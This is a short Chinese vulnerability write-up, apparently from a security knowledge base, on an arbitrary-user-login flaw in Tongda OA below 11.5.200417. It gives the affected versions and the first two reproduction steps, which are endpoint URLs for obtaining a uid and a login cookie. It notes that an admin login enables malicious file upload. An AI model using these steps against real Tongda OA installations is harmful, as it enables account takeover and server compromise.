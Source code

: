 ```yaml
---
title: "通达OA 任意用户登录漏洞"
id: zhfly3344
---
```


# 通达OA 任意用户登录漏洞

## 一、漏洞简介

未经授权的攻击者可以通过构造进行任意用户登录（包括admin），登录之后可进一步上传恶意文件控制网站服务器。

## 二、漏洞影响

通达OA < 11.5.200417版本

## 三、复现过程

### 第一种利用方法

> 第一步：拿到uid

```
http://www.0-sec.org/general/login_code.php 
```

![image](../img/94d2a8057ace250366f8a8c442f30212.png)

> 第二步：拿到cookie

```
http://www.0-sec.org/logincheck_code.php 
```

![image](../img/53223c11c5f1a76d10b32d2c670ed31e.png)
